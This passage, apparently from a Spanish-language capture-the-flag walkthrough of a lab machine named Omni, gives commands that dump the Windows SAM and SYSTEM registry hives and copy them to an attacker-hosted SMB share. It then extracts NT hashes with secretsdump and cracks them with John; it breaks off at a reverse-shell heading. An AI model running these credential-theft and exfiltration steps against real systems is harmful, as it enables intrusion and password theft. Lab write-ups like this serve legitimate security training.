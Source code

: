 
Lo raro aqui es que si hacemos 
un 
```bash
 net user 
```
, no vemos que existe el usuario **omni** y esto es turbio porque tambien podria decir que somos un usuario privilegiado.

Si creamos una carpeta en 
```bash
 C:\Data\Users 
```
 vemos que podemos crearla sin problema. Intentamos ver si podemos recuperar cosas como **sam**.

```bash
cd C:\Data\Users
mkdir Temp
cd Temp
reg save HKLM\system system.backup
reg save HKLM\sam sam.backup
```

Nos transferimos los ficheros creando un recurso compartido a nivel de red.

```bash
impacket-smbserver smbFolder $(pwd) -smb2support -username s4vitar -password s4vitar123
```

Desde la maquina victima, nos creamos una unidad logica, la qual se conecta a nuestro recurso compartido

```bash
net use x: \\10.10.14.8\smbFolder /user:s4vitar s4vitar123
dir x:\
dir C:\Temp
copy sam.backup x:\sam
copy system.backup x:\system
```

#### Crackeando los hashes NT con John {-}

Ahora intentamos dumpear los hashes de los usuarios con **secretsdump**.

```bash
secretsdump.py -sam sam -system system LOCAL
```

Hemos podido obtener los hashes NT de los usuarios del systema. Los copiamos y los metemos en un fichero llamado hashes.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes --format=NT
```

Aqui hemos podido crackear el hash del usuario **app**

#### Creando una reverseshell desde Windows Device Portal {-}
